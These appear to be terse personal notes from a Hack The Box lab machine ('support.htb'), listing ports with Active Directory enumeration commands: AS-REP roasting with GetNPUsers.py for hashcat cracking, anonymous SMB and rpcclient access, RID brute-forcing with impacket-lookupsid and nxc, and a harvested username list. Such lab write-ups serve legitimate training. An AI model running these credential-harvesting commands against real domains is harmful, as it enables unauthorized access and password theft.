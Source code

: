 

53 - nothing
88 - with a list of usernames (and no passwords) you can check if "No preauth" is required using GetNPUsers.py

GetNPUsers.py support.htb/ -request -no-pass -usersfile users -dc-ip 10.129.123.182 -outputfile npusers -format hashcat


135
### 139

```
smbclient -N \\\\10.129.123.182\\support-tools
```

* use dnspy to analyze binaries *

389
### 593
```
rpcclient \\\\10.129.123.182 -U ''
lookupnames administrator
administrator S-1-5-21-1677581083-3380853377-188903654-500
```

```
impacket-lookupsid guest@10.129.123.182
nxc smb 10.129.123.182 -u 'anonymous' -p '' --rid-brute
```
    
#### Cleaning up with grep and cut 
    
```
impacket-lookupsid guest@10.129.123.182 | grep -i SidTypeUser | cut -d ' ' -f 2 
SUPPORT\ford.victoria

impacket-lookupsid guest@10.129.123.182 | grep -i SidTypeUser | cut -d ' ' -f 2 | cut -d '\' -f 2
ford.victoria
```

```
Administrator
Guest
krbtgt
DC$
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
```
